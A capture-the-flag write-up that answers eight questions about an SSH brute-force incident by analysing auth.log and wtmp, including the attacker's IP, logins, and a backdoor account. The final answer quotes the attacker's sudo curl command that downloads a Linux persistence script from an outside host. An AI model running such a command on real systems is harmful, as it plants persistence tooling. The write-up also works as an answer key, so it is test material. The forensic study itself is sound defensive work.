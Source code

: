 

##### Sherlock Scenario

In this very easy Sherlock, you will familiarize yourself with Unix auth.log and wtmp logs. We'll explore a scenario where a Confluence server was brute-forced via its SSH service. After gaining access to the server, the attacker performed additional activities, which we can track using auth.log. Although auth.log is primarily used for brute-force analysis, we will delve into the full potential of this artifact in our investigation, including aspects of privilege escalation, persistence, and even some visibility into command execution.


Q1: Analyze the auth.log. What is the IP address used by the attacker to carry out a brute force attack?

A: 65.2.161.68

Opening the auth.log file we see a lot of entries about Invalid user from the same ip, i would assume that this ip is the attacker's.

![](../../Img/Pasted%20image%2020250425142803.png)

Q2: The bruteforce attempts were successful and attacker gained access to an account on the server. What is the username of the account?

A: root

Looking further down we can find the username (searching for success didn't work, but accepted works)

![](../../Img/Pasted%20image%2020250425143038.png)

Q3: Identify the timestamp when the attacker logged in manually to the server to carry out their objectives. The login time will be different than the authentication time, and can be found in the wtmp artifact.

A: 2024-03-06 06:32:45

In the wtmp file (after utmpdump bc u cant open the file just like that). We search for the root acc and the ip of the attacker and find the answer

![](../../Img/Pasted%20image%2020250425144054.png)

Q4: SSH login sessions are tracked and assigned a session number upon login. What is the session number assigned to the attacker's session for the user account from Question 2?

A: 37

This one is in the auth.log file, following the path of this questions, we can assume that it is asking for the manual login. (as oppose to the automated one, that being the first successful login of root with the attacker ip)

![](../../Img/Pasted%20image%2020250425144551.png)

Q5: The attacker added a new user as part of their persistence strategy on the server and gave this new user account higher privileges. What is the name of this account?

A: cyberjunkie

In the same file, a little bit below we can see that a new user is created, and the modifications done to this user too.

![](../../Img/Pasted%20image%2020250425144753.png)

Q6: What is the MITRE ATT&CK sub-technique ID used for persistence by creating a new account?

A: T1136.001

In the matrix (), we search first the persistence column, then for acc creation, and for the sub technique we select the appropiate (this been an acc created on the system itself it's a local acc)

Q7: What time did the attacker's first SSH session end according to auth.log?

A: 2024-03-06 06:37:24

Q8: The attacker logged into their backdoor account and utilized their higher privileges to download a script. What is the full command executed using sudo?

A: /usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh
